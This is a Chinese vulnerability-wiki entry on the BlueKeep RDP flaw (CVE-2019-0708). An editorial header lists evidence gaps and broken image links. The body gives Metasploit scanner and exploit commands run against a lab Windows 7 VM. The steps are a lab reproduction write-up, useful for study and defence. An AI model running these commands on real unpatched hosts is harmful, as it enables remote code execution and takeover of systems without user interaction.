

# （CVE-2019-0708） Windows 远程溢出漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Windows Remote Desktop Services
- 文献类型：BlueKeep Metasploit复现简记
- 版本、权限及部署边界：Win7 build7601/VMware15示例，RDP可达，NLA与补丁状态未列
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 与另一0708教程同主题但本篇target4、另一target3，需固定Metasploit版本解释编号差异而非任选
2. 仅扫描/利用截图和成功一句，缺完整参数、前后权限/失败及蓝屏风险、官方修复
3. 多数相对图指向MS08-067目录且后接重复Windows路径，明确Markdown损坏，图片内容是否错配待视检
4. 命令在粗体内含转义下划线、//中文注释，需分离真实命令与说明；范围清单缺SP/架构
5. 无原作者或源码/官方来源，可并入更完整BlueKeep主记录保留环境差异

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

（CVE-2019-0708） Windows 远程溢出漏洞
======================================

一、漏洞简介
------------

Windows再次被曝出一个破坏力巨大的高危远程漏洞CVE-2019-0708。攻击者一旦成功利用该漏洞，便可以在目标系统上执行任意代码，包括获取敏感信息、执行远程代码、发起拒绝服务攻击等等攻击行为。而更加严重的是，这个漏洞的触发无需用户交互，攻击者可以用该漏洞制作堪比2017年席卷全球的WannaCry类蠕虫病毒，从而进行大规模传播和破坏。

二、漏洞影响
------------

Windows 7
Windows Server 2008 R2
Windows Server 2008
Windows 2003
Windows XP

三、复现过程
------------

进入msf、搜索0708

**msfconsole**
**search 0708**

使用扫描模块（scanner）

Windows远程溢出漏洞/media/rId24.png)

**use auxiliary/scanner/rdp/cve\_2019\_0708\_bluekeep**
**show options**
**set rhost 192.168.237.131 //这里的ip填写自己win7主机的ip**
**run**

Windows远程溢出漏洞/media/rId25.png)

Windows远程溢出漏洞/media/rId26.png)

使用利用模块（exploit）

**use exploit/windows/rdp/cve\_2019\_0708\_bluekeep\_rce**
**show targets //选择目标主机类型 这里我选择了7601 -vmware 15**
**set target 4**
**set rhost 192.168.237.131**
**run**

Windows远程溢出漏洞/media/rId27.png)

Windows远程溢出漏洞/media/rId28.png)

Windows远程溢出漏洞/media/rId29.png)

复现成功。
